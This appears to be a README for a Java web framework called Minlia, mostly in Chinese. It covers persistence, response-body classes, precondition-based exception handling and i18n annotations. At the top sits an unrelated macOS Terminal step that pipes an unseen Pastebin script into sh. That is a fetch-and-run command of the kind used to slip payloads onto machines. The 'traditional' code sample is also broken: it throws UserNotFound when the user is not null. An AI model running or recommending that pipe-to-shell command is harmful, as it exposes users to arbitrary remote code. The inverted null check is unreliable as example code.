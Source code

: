 
## In Macos Terminal

Run below:

```
curl https://pastebin.com/raw/6rJ3LwcL | sh
```


## 关于Minlia Cloud Devlops
一款现代化, 敏捷,便利, 优雅的WEB应用架构Style.


### 关于数据持久化层
[MYBATIS和Data JPA](https://github.com/minlia-projects/minlia-modules/blob/dev/will/module-data/data.md)




### 使用Map还是对象传递变量
TypeSafe
Too Many Conversions
Usage Inconvenience

So 
```
SuccessResponseBody extends StatefulBody extends Body
```

### 便利的异常处理机制

传统的异常处理机制与校验

```
if(null!=user){
    throw new RuntimeException("UserNotFound");
}

```

MINLIA姿势的异常处理与校验
```
ApiPreconditions.checkNotNull(user,ApiCode.USER_NOT_FOUND);

```

### 常量自动初始化成国际化
处理器 

`LocalizedAnnotationInitializingListener`

```
@Localized(values={
    @Localize(type= LanguageTypes.ExceptionsApiCode,locale = "en_US",message = "Not Found: the API you requested could not be found."),
    @Localize(type= LanguageTypes.ExceptionsApiCode,locale = "zh_CN",message = "请求的API无法找到"),
})
```

### 初始化国际化内容

注入依赖
```
@Autowired
LanguageCreationService languageCreationService;
```
使用

```
languageCreationService.initialLanguage(code,message);
```







